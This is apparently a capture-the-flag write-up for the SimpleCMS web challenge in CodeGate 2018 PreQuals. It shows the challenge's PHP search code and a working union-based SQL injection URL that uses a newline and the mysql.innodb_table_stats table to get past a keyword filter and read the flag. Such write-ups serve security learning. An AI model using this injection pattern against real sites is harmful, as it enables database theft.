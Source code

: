 ```yaml
---
layout: post
title:  "CodeGatePreQuals 2018"
subtitle: 'CodeGate 2018 PreQuals Writeup'
date:   2018-02-04 00:06:31
tags:
- Web, CTF, SQLi, Web Security
---
```


As usual, the CTF contained pretty hard challenges and there were only two web challenges. The challenge name was `SimpleCMS` which is basically a Content Management System for which they gave the source code. Woah, neet and clean and yes, setting up a challenge locally is nothing more awesome!

Moving onto the challenge, from the very first view, it seems to be SQLi but I was obvious that there were some filters as I tried to register with a password as `password` which was basically denied and that was because `or` was filtered by the `waf` file.

Since an instance was running locally, I was able to figure out that the `flag` was in the third column of the table named `xx_flag` where in `xx` denoted a random str. Also, there is a column in the table but then even that has a random str appended towards the beginning. So now, I knew that I have to get the table name, column name as well. The next question was, SQLi - how, where?

The next step was finding out where the injection point is and after a fair amount of time, I was able to find that, query is `LOWER({$column[$i]}) like '%{$search}%' {$operator}` and yes, possibly injection in `{$search}`. Moreover, I did not find `LIKE` keyword to be listed in the blacklist.

Taking a look at the `search code` in the file `Board.class.php` gives us more information about the search function.

```
<?php
function action_search(){
			$column = Context::get('col');
			$search = Context::get('search');
			$type = strtolower(Context::get('type'));
			$operator = 'or';

			if($type === '1'){
				$operator = 'or';
			}
			else if($type === '2'){
				$operator = 'and';
			}
			if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
				$column = 'title';
			}
			$query = get_search_query($column, $search, $operator);
			$result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
			include(CMS_SKIN_PATH . 'board.php');
		}
		function action_read(){
			$idx = Context::get('idx');
			if(!$idx)
				alert('not found', 'back');
			$query = array('idx'=>$idx);

			$result = DB::fetch_row('board', $query);
			include(CMS_SKIN_PATH . 'post.php');
		}
	}
  ?>
```

In the above code, which is pretty weird, you can see that a newline can cause an error.

So building up the payload:

```
http://13.125.3.183/index.php?act=board&mid=search&col=title#&type=1&search=test%0a)<0 union select 1,(select table_name from mysql.innodb_table_stats limit 2,1),3,4,5#
```
which fetches the `{table_prefix}` and also, `information_schema` can't be used and that is also blacklisted and finally building the payload to get the `flag` using `join` fetches us `flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}`.


Reach me out on <a href="https://twitter.com/gkgkrishna33">Twitter</a>.
